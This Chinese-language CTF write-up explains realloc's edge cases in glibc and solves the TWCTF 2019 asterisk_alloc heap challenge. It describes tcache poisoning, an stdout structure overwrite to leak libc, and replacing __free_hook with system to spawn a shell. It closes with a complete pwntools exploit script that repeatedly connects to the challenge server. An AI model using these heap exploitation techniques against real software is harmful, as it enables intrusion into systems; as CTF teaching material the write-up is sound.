



# 多功能的`realloc`

> realloc(ptr,size)函数
>
> 当size不合法，比如-1时，realloc函数就会返回NULL。
>
> 当size为0且ptr存在时，就会执行free(ptr)且返回NULL
>
> 当size正常且ptr不存在时，就会执行malloc(ptr)
>
> 当size正常且ptr存在时，这就涉及到了两种情况，
>
> 第一种是size大于了ptr指向堆块的size，这种情况先判断ptr指向的堆块能否与top chunk或者位于高地址且free状态的堆块合并，如果合并后二者大小满足size则进行合并。如果不能合并的话再去申请一块新的内存，将原来的数据拷贝过来，再释放之前的堆块。
>
> 第二种是size小于了ptr指向堆块的size，这种情况会留下size大小的堆块，将剩余部分的堆块给释放掉。


# 例题

## TWCTF_online_2019_asterisk_alloc

https://buuoj.cn/challenges#TWCTF_online_2019_asterisk_alloc




注意这8次free的最后一次要用realloc来free，因为我们要把ptr置空。

这部分对应代码：

```python
add_r(0x100,'aaaaaaaaa')
add_r(0x40,'bbbb')
add_r(0,'')
add_r(0x20,'prevent chunk')
add_r(0,'')
add_r(0xb0,'a')
for i in range(7):
        free('r')
    
add_r(0,'')
debug()
add_r(0x40,'sss')
pause()
    
add_r(0x100,p64(0)*9+p64(0xc1)+b'\x60\xc7')
pause()
```

add_r(0)后的add_r(0x40)是为了将ptr置为0x50这个chunk处。



然后再realloc(0x100)，就能把下面的0xC1也给申请到了。

然后覆盖fd即可。




后面就是常规的tcache dup 然后 tcache posioning。

注意点在：要用realloc实现malloc时，**要先realloc(-1)将ptr置空**，下一步realloc才能达到malloc的目的。

后面就是简单的修改stdout的flags字段为**0xfbad1887**，后面三个read为0，write的低字节为00即可泄露libc。

只是本地ubuntu18的没有调试符号。。。

泄露libc后就是打tcache的double free改free_hook为system，free(b'/bin/sh\x00')即可。

由于本地没符号，贴个ZIKH师傅的完整EXP:

```python
def pwn():
    add_r(0x100,'aaaaaaaaa')
    add_r(0x40,'bbbb')
    add_r(0,'')
    add_r(0x20,'prevent chunk')
    add_r(0,'')
    

    
    add_r(0xb0,'a')
    

    for i in range(7):
        delete('r')
    
    add_r(0,'')
    add_r(0x40,'sss')
    
    
    add_r(0x100,p64(0)*9+p64(0xc1)+b'\x60\xc7')
    add_r(0,'')
    #debug(p,'pie',0xDD0,0xDD7,0xdde,0xde5)
    add_r(0xb0,'a')
    add_m(0xb0,p64(0xfbad1887)+p64(0)*3+b'\x00')
    leak_libc=u64(p.recvuntil(b'\x7f')[-6:].ljust(8,b'\x00'))
    libc_base=leak_libc-0x3ed8b0
    free_hook=libc_base+libc.symbols['__free_hook']
    sys_addr=libc_base+libc.symbols['system']
    info_addr('libc_base',libc_base)
    add_r(0,'')
    
    add_r(0x30,'a')
    delete('r')
    add_r(0,'')
    add_r(0x30,p64(free_hook))
    add_r(-1,'')
    add_r(0x30,p64(0xdeadbeef))
    add_r(-1,'')
    add_r(0x30,p64(sys_addr))
    add_c(0x10,'/bin/sh\x00')
    delete('c')
    pause()
    p.interactive()
    
#pwn()

while 1:
    try:
        p=remote('node5.buuoj.cn',28083)
        pwn()
    except:
        p.close()
```

